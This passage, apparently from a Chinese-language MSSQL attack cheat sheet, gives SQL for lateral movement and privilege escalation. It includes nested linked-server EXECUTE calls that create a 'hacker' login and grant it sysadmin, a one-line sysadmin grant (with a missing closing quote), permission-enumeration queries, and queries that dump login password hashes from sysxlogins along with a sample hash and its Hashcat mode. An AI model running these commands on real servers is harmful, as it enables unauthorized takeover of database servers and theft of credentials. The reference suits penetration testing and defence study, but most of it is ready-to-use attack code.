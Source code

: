 ```sql
-- 创建用户并赋予管理员权限
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## MSSQL 权限

### MSSQL 列出权限

* 列出当前用户在服务器上的有效权限。

    ```sql
    SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
    ```

* 列出当前用户在数据库上的有效权限。

    ```sql
    SELECT * FROM fn_my_permissions (NULL, 'DATABASE');
    ```

* 列出当前用户在某个视图上的有效权限。

    ```sql
    SELECT * FROM fn_my_permissions('Sales.vIndividualCustomer', 'OBJECT') ORDER BY subentity_name, permission_name; 
    ```

* 检查当前用户是否是指定服务器角色的成员。

    ```sql
    -- 可能的角色：sysadmin, serveradmin, dbcreator, setupadmin, bulkadmin, securityadmin, diskadmin, public, processadmin
    SELECT is_srvrolemember('sysadmin');
    ```

### MSSQL 将用户提升为DBA

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## MSSQL 数据库凭据

* **MSSQL 2000**: Hashcat 模式 131: `0x01002702560500000000000000000000000000000000000000008db43dd9b1972a636ad0c7d4b8c515cb8ce46578`

    ```sql
    SELECT name, password FROM master..sysxlogins
    SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins 
    -- 需要转换为十六进制才能在 MSSQL 错误消息中返回哈希 / 某些版本的查询分析器
    ```

